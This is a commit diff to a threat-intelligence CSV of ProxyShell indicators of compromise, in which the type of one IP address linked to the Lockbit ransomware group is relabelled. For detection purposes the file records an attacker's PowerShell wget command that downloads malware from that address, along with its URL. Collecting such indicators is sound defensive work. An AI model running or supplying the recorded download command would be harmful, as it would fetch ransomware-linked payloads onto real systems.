

Before and after one commit to hvs-consulting/ioc_signatures, a CSV file: Proxyshell/HvS_Proxyshell_2021_09_IOCs.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Fixed wrong IOC Type

```diff
--- a/Proxyshell/HvS_Proxyshell_2021_09_IOCs.csv
+++ b/Proxyshell/HvS_Proxyshell_2021_09_IOCs.csv
@@ -25,3 +25,3 @@ URL,http://45.91.83.176:41361/xtOGpjcbVRwsZNCHfMDP,URL used in Powershell wget c
 STRING,powershell wget http://45.91.83.176:41361/xtOGpjcbVRwsZNCHfMDP,Powershell wget command
-IP,45.91.83.176,"IP used to download malware via Powershell wget, used by Lockbit Ransomware group"
+IPV4,45.91.83.176,"IP used to download malware via Powershell wget, used by Lockbit Ransomware group"
 DOMAIN,themoscowtimes.com,Used in ping command to check for internet connection
```
